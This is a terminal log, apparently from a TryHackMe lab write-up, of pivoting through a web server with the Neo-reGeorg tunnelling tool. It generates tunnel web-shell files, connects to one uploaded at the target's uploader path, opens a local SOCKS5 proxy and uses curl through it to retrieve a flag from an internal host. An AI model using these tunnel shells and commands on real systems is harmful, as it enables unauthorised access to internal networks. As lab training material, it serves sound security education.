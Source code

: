 ```


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

root@ip-10-10-99-235:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.20.177/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.20.177/uploader/files/tunnel.php



root@ip-10-10-99-235:/opt/Neo-reGeorg# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag
<p>Your flag: THM{H77p_7unn3l1n9_l1k3_l337}<
```
![[Pasted image 20220912113401.png]]
